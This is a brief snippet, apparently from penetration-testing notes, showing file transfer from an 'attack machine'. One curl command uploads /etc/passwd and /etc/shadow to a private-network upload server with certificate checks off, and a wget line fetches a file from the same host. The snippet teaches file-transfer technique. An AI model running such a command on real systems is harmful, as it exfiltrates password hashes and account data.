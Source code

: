 # Uploading from attack machine 
```shell-session
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

# Downloading
```shell-session
wget 192.168.49.128:8000/filetotransfer.txt
```

